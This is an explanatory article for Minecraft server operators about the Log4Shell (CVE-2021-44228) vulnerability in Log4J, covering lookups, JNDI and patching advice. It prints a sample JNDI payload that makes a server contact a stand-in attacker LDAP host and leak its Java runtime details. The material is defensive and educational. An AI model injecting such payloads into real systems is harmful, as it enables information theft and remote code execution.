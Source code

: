 # Log4J JNDI Exploit

## What is Log4J?

Log4J is the most popular logging library in the Java world. It is used everywhere. You can name any company, they are probably using it, if they have services running Java.
It is so popular, there are many variants for other languages which were inspired by Log4J.

Each log message is sent to a set of previously configured "appenders" which
write or send the data to different locations. This can be a file, database or many others.

## Log4Shell Vulnerability

The exploit was submitted to Apache by Alibaba on November 24, 2021. It was then published in a tweet on December 9, 2021. The vulnerability was given the descriptor "Log4Shell"
and CVE number [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). It was also given the maximum CVSS score: 10/10. This marks it as very severe, as it is used
by millions of servers and computer around the world.

## Lookups

Log4J supports **lookups**. This allows for logging information about the system (time, date, version, ...). This can be done with a simple syntax in the message
string you give to Log4J when logging something or in the configuration.
Your entered string is then evaluated by Log4J and it then replaces your string with some meaningful data, if you asked for it.

I.e. if I want to get the current OS:

```java
${java:os}
```

This does also work recursively, which means you can nest multiple expressions inside of each other. More on lookups can be found [here](https://logging.apache.org/log4j/2.x/manual/lookups.html).

Now, this is kind of a problem, but not a that severe one. We'll come to the real big problem of this exploit later. Take the following example:

You are running a Minecraft server. Someone is joining with a modified client. The client does not send his real name. Instead, he sends this:

```java
${java:hw}
```

This is a lookup, which will also be logged and evaluated when logged in the server logs. Instead of this string, it'll log your own hardware information.
Now, this isn't really a big problem. This just means you kind of can't really trust your logs anymore. But we're just getting started.

## JNDI

JNDI is the Java Naming and Directory Interface, which is able to lookup data in other services. These can be LDAP, DNS, RMI and some other servers. This is **not** a part of
Log4J and is included in Java. Don't confuse this.

Such a lookup could look like this:

```java
${jndi:ldap://mycoolserver.com/some-data}
```

How can an attacker make use of this? It works like this: Let's take our example with the minecraft server again. The attacker is joining again and is sending
a modified player name:

```java
${jndi:ldap://totallytrustworthyserver.tk/${java:runtime}}
```

In this JNDI lookup, Log4J will send a request to the LDAP server at totallytrustworthyserver.tk and will send the servers Java runtime information.
Now our attacker already knows the exact Java version and distribution we're running.

The LDAP server can also return something, for example a Java object. JNDI will happily accept this response and execute it. Now this is a big problem.
Just to rehearse: There is a foreign piece of code with potentially bad instructions in it, that is executed on **your** server without your knowledge.

As this is a complicated topic, we won't go deeper into this. If you want to learn more, you can find good resources online for further reading.

## How do I secure myself?

An important rule in the whole IT is to always install the latest security updates. These also include patches like this one here.

If you are using Log4J in your application, make sure to update to version 2.17.0 or later. If you're unable to do this, make sure to
remove `org.apache.logging.log4j.core.lookup.JndiLookup` from your classpath.

!!! note

    Only `log4j-core` was affected by this vulnerability. If you're only using log4j-api (i.e. in a Minecraft plugin) your project is not affected.

Update your server to the latest version available. Make sure the maintainers have updated their Log4J dependency. Some older versions of some server software may not be
maintained anymore. You then have to manually make sure, it's dependency is up to date.

Not only servers were affected by this, everyone was. So was also your Minecraft client (the game). If your version is up to date, there is no need to worry. Versions before
1.7 are not affected. Third-party launchers and clients may not be automatically updated. Make sure the maintainers have updated their Log4J.

Also, take a look at [Minecraft's official statement](https://help.minecraft.net/hc/en-us/articles/4416199399693-Security-Vulnerability-in-Minecraft-Java-Edition),
[Spigot's official statement](https://www.spigotmc.org/threads/spigot-security-releases-%E2%80%94-1-8-8%E2%80%931-18.537204/) and [Instructions for Forge Users](https://gist.github.com/TheCurle/f15a6b63ceee3be58bff5e7a97c3a4e6).
